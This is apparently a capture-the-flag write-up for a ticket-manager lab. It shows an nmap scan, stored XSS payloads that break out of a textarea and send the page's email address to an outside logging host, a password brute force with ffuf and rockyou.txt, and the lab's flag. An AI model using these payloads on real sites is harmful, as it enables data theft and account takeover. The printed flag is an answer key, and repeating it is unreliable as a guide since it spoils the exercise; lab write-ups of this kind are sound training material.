 > That's the ticket

**Hint: Our HTTP & DNS Logging tool on http://10.10.10.100 may come in useful!**

# Nmap

nmap -sC -sV -A -T4 -Pn -vv -p- -oN nmap/initial 10.10.221.125

```bash
22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack nginx 1.14.0 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST
|_http-server-header: nginx/1.14.0 (Ubuntu)
|_http-title: Ticket Manager > Home
```

And we can register a new user and explore the webapp.

`test@tryhackme.com`:`testTest`. And I created tickets in the website I was also montirong the requests through the Console Tab. Nothing interesting. So I tried for HTML Injection. Nope. Then I tried for XSS.

## Payload 1:<script>alert(1)</script>

Still didn't work.Then viewing the page-sorce I found out the position of our payload and what tag is present. Looks like it is a textarea tag. So let's escape it!

## Payload 2: </textarea><script>alert(1)</script>

And it works! As from the hint given let's move onto to DNS logger.

## Paylaod 3: </textarea><img src=http://bb1bf83e2e03c8a49f0565e998e36cdd.log.tryhackme.tech>

Gave me 1 DNS request and 1 HTTP request from us. The logger is outside the firewall so we have to bypass it! A webserver is behind the firewall so it can not connect back to us. But if there is a “localhost” in the url, it seems like it can make the request outside the firewall.

## Payload 4: 

```
</textarea><script>
var href="http://bb1bf83e2e03c8a49f0565e998e36cdd.log.tryhackme.tech/test";
new Image().src=href;
</script>
```

It works an we can see different IP in our DNS request.

```
The Lookup was requested @ 18 Jun 2021 03:47:54 UTC from IP 3.251.105.181
```

Let's try adding localhost to the payload.

## Payload 4

```
</textarea><script>
var href="http://localhost.bb1bf83e2e03c8a49f0565e998e36cdd.log.tryhackme.tech/test";
new Image().src=href;
</script>
```

And I got 2 DNS queries and 1 was from inside the firewall! And our 1st question is to find the IT Supports email address. Let's modify the payload.

## Payload 5

```
</textarea><script>
var email = document.getElementById('email').innerHTML;
email = email.replace("@", "8")
email = email.replace("0", "0")
document.location = "http://" + email + "bb1bf83e2e03c8a49f0565e998e36cdd.log.tryhackme.tech"
</script>
```

And we got it!

```
adminaccount8itsupport.thmbb1bf83e2e03c8a49f0565e998e36cdd.log.tryhackme.tech
```

# Email ID -> adminaccount@itsupport.thm

Since we got the mail id let's bruteforce password. Let's use ffuf!

ffuf -w /usr/share/wordlists/rockyou.txt -d "email=adminaccount@itsupport.thm&password=FUZZ" -u http://10.10.221.125/login -H "Content-Type: application/x-www-form-urlencoded" -fw 475

```bash
123123                  [Status: 302, Size: 0, Words: 1, Lines: 1]
```

And we got our flag at Ticket 1!

```
THM{6804f45260135ec8418da2d906328473}
```